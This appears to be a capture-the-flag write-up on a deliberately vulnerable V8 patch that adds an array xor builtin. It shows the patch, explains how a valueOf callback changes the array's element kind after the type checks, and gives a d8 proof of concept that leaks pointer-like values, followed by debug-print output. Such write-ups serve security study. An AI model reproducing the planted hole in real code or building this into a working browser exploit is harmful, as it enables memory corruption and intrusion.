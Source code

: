 ```js
+  // Ah yes, xoring doubles..
+  Handle<FixedDoubleArray> elements(FixedDoubleArray::cast(array->elements()), isolate);
+  FOR_WITH_HANDLE_SCOPE(isolate, uint32_t, i = 0, i, i < length, i++, {
+    double x = elements->get_scalar(i);
+    uint64_t result = (*(uint64_t*)&x) ^ xor_val;
+    elements->set(i, *(double*)&result);
+  });
+  
+  return ReadOnlyRoots(isolate).undefined_value();
+}
+
```
This patch introduces new .xor() prototype, that can be used to xor all values in array of doubles.

Looking at the patch we can see it makes sure that all elements of the array are `PACKED_DOUBLE_ELEMENTS`, as well as the check whether the array is indeed an array and `HASONLYSIMPLERECEIVERELEMENTS`, which according to chromium source code "Checks that we have no accessors on the receiver's elements. ".

Overall the new functionality seems to be vulnerability proof or is it?
If we take a look it does not check anything regarding the argument which gets passed into the function. All it does is to cast it to ToNumber and this happens after all checks regarding our array.

```
d8> arr = [1.1, 1.2, 1.3]
[1.1, 1.2, 1.3]
d8> bad = {valueOf: () => {arr[0] = {}; return 1;}}
{valueOf: () => {arr[0] = {}; return 1;}}
d8> arr.xor(bad)
undefined
d8> arr
[141920, 1.2, 141944]
```

Woah v8 returned integer value rather than float, what happened?
Using `./d8 --allow-natives-syntax` we can use debug statements to get more information about what happened.

Let's try to use debug print on original array.
```
d8> arr = [1.1, 1.2, 1.3]
[1.1, 1.2, 1.3]
d8> %DebugPrint(arr)
DebugPrint: 0xf3e00042be9: [JSArray]
 - map: 0x0f3e001cb7c5 <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x0f3e001cb11d <JSArray[0]>
 - elements: 0x0f3e00042bc9 <FixedDoubleArray[3]> [PACKED_DOUBLE_ELEMENTS]
 - length: 3
 - properties: 0x0f3e00000725 <FixedArray[0]>
 - All own properties (excluding elements): {
    0xf3e00000d99: [String] in ReadOnlySpace: #length: 0x0f3e00025f85 <AccessorInfo name= 0x0f3e00000d99 <String[6]: #length>, data= 0x0f3e00000069 <undefined>> (const accessor descriptor, attrs: [W__]), location: descriptor
 }
 - elements: 0x0f3e00042bc9 <FixedDoubleArray[3]> {
           0: 1.1
           1: 1.2
           2: 1.3
 }
0xf3e001cb7c5: [Map] in OldSpace
 - map: 0x0f3e001c01b5 <MetaMap (0x0f3e001c0205 <NativeContext[295]>)>
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - unused property fields: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
```